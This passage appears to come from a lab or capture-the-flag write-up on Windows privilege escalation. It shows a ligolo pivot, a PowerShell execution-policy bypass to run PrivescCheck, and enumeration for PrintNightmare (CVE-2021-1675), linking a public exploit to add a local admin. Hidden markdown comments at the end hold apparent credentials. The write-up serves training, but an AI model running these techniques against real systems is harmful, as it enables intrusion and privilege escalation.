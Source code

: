 Lucky for use real time protection is not enabled, so we have the possibility to run some tools to try to escalate our privileges. I will try to use winpeas. Again we need to setup another ligolo listener to reach our python webserver:

    [Agent : root@ip-10-200-95-33] » listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp

So now visting the agent URL from PC-FILESRV01:

    http://10.200.95.33:8000

Our web server will respond. Now we can proceed to download winpeas, then we can execute it:

    C:\Users\watamet\Music>winPEASx64_ofs.exe
    This program is blocked by group policy. For more information, contact your system administrator.

Oh no! We cant. Since we are not administrators we can't modify the security policy, so we have to find another tool.    
Neither seatbelt works:

    C:\Users\watamet\Music>Seatbelt.exe
    This program is blocked by group policy. For more information, contact your system administrator.

Since powershell seems not protected by AMSI:

    PS C:\Users\watamet> "mimikatz"
    mimikatz

I decided to try with <b>PrivescCheck</b>, that works quite well. <b>Note: with Remmina you can simply copy & paste the source of the Powershell script in a new textual file on the victim machine. The change the file exstension to ps1</b>
The command below generate an HTML report:

    PS C:\Users\watamet\Music> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML"

Nothing really important emerged. THe only useful information is that the last installed KB goes back to 2020:

    KB4587735 Security Update NT AUTHORITY\SYSTEM 11/11/2020 12:00:00 AM
    KB4586793 Security Update NT AUTHORITY\SYSTEM 11/11/2020 12:00:00 AM
    ...

Then I proceed to investigate which vulnerabilities we could exploit to escalate our privilege. Actually I did not found too much, so I had a look to other writeup and it's reported that the server is vulnerable to the so-called PrinterNightmare (CVE-2021-1675). I didn't know too much about this vulnerability, since I have never had the occasion to use it, I took a break to go [deeper on the matter](https://itm4n.github.io/printnightmare-exploitation/)
First we need to check if the printer remote spool is activated:
    
    impacket-rpcdump @10.200.95.35 | grep -A 10 MS-RPRN
    Protocol: [MS-RPRN]: Print System Remote Protocol 
    Provider: spoolsv.exe 
    UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0 
    Bindings: 
              ncalrpc:[LRPC-ac66309ff34dbf0966]
              ncacn_ip_tcp:10.200.95.35[49668]
     ...
As we have alredy seen, since powershell is not blocked by AMSI, I found that a [script](https://github.com/calebstewart/CVE-2021-1675) that can be used to try to exploit the vulnerabilty through powershell. Since we have an RDP session active we can just copy & paste the code to the server. Then I used the exploit to add a new user to the local admin group:


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)